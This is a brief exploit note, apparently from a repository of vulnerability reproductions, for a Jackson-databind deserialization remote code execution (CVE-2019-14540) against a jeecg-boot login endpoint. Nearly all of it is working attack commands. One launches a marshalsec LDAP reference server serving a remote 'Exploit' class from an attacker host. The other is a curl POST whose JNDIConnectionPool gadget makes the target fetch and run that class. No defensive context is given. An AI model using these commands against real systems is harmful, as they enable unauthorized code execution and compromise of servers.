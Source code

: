 # Remote code execution in Jackson (CVE-2019-14540)

reference [link](https://wiki.96.mk/Web%E5%AE%89%E5%85%A8/FasterXML%20jackson/%EF%BC%88CVE-2019-14540%EF%BC%89FasterXML%20jackson-databind%20%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/)


java -cp t.jar marshalsec.jndi.LDAPRefServer "http://192.168.85.130:8000/#Exploit" 1389


curl -X POST "http://192.168.1.102:8080/jeecg-boot/sys/login" -H  "accept: */*" -H  "Content-Type: application/json" -d  "[\"com.sun.org.apache.xalan.internal.lib.sql.JNDIConnectionPool\",{\"jndiPath\":\"ldap://192.168.85.130:1389/Exploit\"}]"